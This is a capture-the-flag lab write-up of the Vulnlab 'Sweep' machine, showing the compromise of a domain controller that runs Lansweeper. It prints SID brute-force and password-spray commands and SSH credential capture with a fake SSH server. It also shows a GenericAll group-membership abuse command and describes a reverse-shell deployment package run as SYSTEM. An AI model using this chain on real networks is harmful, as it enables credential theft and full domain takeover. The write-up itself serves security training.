

| Machine Name | Difficulty | Date Started | Date Completed |
| ------------ | ---------- | ------------ | -------------- |
| Sweep        | Medium     | 11/01/2025   | 11/01/2025     |
*Vulnlab.com* 

---

Learning Points:
- Using `crackmapexec` to perform a password/username spray with the `--no-bruteforce` tag.
- SSH sniffing using [fakessh](https://github.com/fffaraz/fakessh) to capture login attempts/credentials as a honeypot on SSH.
- Exploiting Lansweeper to fully compromise a Domain Controller.

---

Attack Path:
- Use SID brute force to identify usernames.
- Run `crackmapexec` to perform a password spray with the format `username:username` and find valid credentials.
- Enumerate Lansweeper and find a mapped credential for a user.
- Enumerate BloodHound and see that the user can be abused to gain remote access to the machine by exploiting `GenericAll` privileges.
- Create a new scan and add Falcon, mapping the SSH credentials to the scan.
- Run `fakessh` on Falcon, initiate the scan on Lansweeper, and capture the credentials of the user.
- Abuse the `GenericAll` privilege of the user to add the user to another group, then use Evil-WinRM to log in to the machine.
- Log in to Lansweeper again using the new user and develop a new project.
- As part of the activity, add a reverse shell PowerShell script and run it as SYSTEM to get a reverse shell as NT Authority System.

---

*Default Nmap Scan :*
```
# Nmap 7.94SVN scan initiated Sat Jan 11 00:17:30 2025 as: nmap -sC -sV -oA default -Pn 10.10.107.56
Nmap scan report for 10.10.107.56
Host is up (0.20s latency).
Not shown: 985 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
81/tcp   open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-title: Lansweeper - Login
|_Requested resource was /login.aspx
82/tcp   open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=Lansweeper Secure Website
| Subject Alternative Name: DNS:localhost, DNS:localhost, DNS:localhost
| Not valid before: 2021-11-21T09:22:27
|_Not valid after:  2121-12-21T09:22:27
| http-title: Lansweeper - Login
|_Requested resource was /login.aspx
|_ssl-date: TLS randomness does not represent time
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2025-01-10 18:47:48Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: sweep.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: sweep.vl0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
| ssl-cert: Subject: commonName=inventory.sweep.vl
| Not valid before: 2025-01-09T18:41:31
|_Not valid after:  2025-07-11T18:41:31
|_ssl-date: 2025-01-10T18:48:51+00:00; -1s from scanner time.
5357/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
Service Info: Host: INVENTORY; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-01-10T18:48:12
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 11 00:18:59 2025 -- 1 IP address (1 host up) scanned in 88.25 seconds

```

Enumerating port 81, we found a web application with a login page:


Researching about Lansweeper, we discovered an RCE exploit: [CVE-2020-14011](https://www.exploit-db.com/exploits/48618).


We didn’t have any credentials to log in to the platform. Even after trying default credentials, we had no luck.  

We then ran a SID brute force attack using `impacket-lookupsid` and successfully retrieved the users of the Domain Controller (DC):

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Sweep]
└─$ impacket-lookupsid anonymous@sweep.vl -no-pass | awk -F'\\\\| ' '/SidTypeUser/ {print $3}' | tee users.txt
Administrator
Guest
krbtgt
INVENTORY$
jgre808
bcla614
hmar648
jgar931
fcla801
jwil197
grob171
fdav736
jsmi791
hjoh690
svc_inventory_win
svc_inventory_lnx
intern
```

Since we had a user list and couldn’t brute-force the accounts due to the risk of account lockouts, we attempted a password spray attack using the format `username:username` with `crackmapexec`.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Sweep]
└─$ crackmapexec smb sweep.vl -u users.txt -p users.txt --no-bruteforce --continue-on-success
```


We successfully discovered the credentials for the user `intern`:

```
intern:intern
```

Using the credentials, we were able to log in to the Lansweeper portal running on port 82:


We were able to see the DC details and confirm that Windows Defender was also running:


#### Bloodhound Enumeration

Using the credentials of the user `intern` that we had, we ran a BloodHound Python scan.


We checked the privileges of the user `intern` but were unable to find any interesting paths.

We then started enumerating Lansweeper further and, under the "Scanning Credentials" tab, found that the `svc_inventory_lnx` user was being used to scan the targets. The credentials for these scans were also stored in Lansweeper.


This meant that if we could perform an SSH sniffing attack by creating a fake SSH server on Falcon and initiate a scan from Lansweeper, we might capture the credentials.

We were also able to identify an interesting attack path from the user `SVC_INVENTORY_LNX` using the BloodHound graph.


We used [fakessh](https://github.com/fffaraz/fakessh) to capture login attempts and credentials as a honeypot on SSH. First, we tested the tool locally and were able to confirm that the entered credentials were logged in Falcon.


We added the IP of Falcon as a scanning target in Lansweeper.


We also mapped the credentials from the "Scanning Credentials" tab to `inventory-linux` in order to perform the scan using the SSH credentials.


After launching the scan, we were able to capture the credentials of the user `svc_inventory_lnx`:


```
svc_inventory_lnx:0|5m-U6?/uAX
```

Since this user was already part of the `Lansweeper Discovery` group, and that group had `GenericAll` permissions over the `Lansweeper Admins` group, which had remote management access, we abused the `GenericAll` permission to add our user to the `Lansweeper Admins` group.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Sweep]
└─$ net rpc group addmem "LANSWEEPER ADMINS" "svc_inventory_lnx" -U "SWEEP.VL"/"svc_inventory_lnx"%"0|5m-U6?/uAX" -S "inventory.sweep.vl"
```

We were able to use Evil-WinRM and log in to the machine; however, we couldn't find any flags. :P


We started enumerating the BloodHound graph and discovered that the `Lansweeper Admins` group also had `GenericAll` access over the `Account Operators` group:


However, when trying to perform the attack from both Linux and Windows, we failed.


### Privilege Escalation

_We looked at a write-up and continued, as our previous attempts didn’t work._

We logged into Lansweeper using the new credentials and went to the user configuration to check the available privileges for this user:


We were able to see that we now had higher privileges for this user:


We mapped the new credentials as `Windows Computer` and set the Domain to `sweep\inventory`, selecting `Inventory Windows`.



We went to `Deployment`, then `Deployment Packages`, and created a new package.


We added our reverse shell by clicking on `Add Step` and selecting Action → Command. We then used the following PowerShell script from [revshells](https://www.revshells.com/).


We couldn’t add our usual b64 encoded payload, so we added Payload #2 from revshells.com instead.


We deployed the newly created package.


We selected `Deploy Now`, then selected `Selection` and clicked `Select Assets`.


We deployed the scan, received a shell as the NT Authority System, and obtained both the user and root flags.


---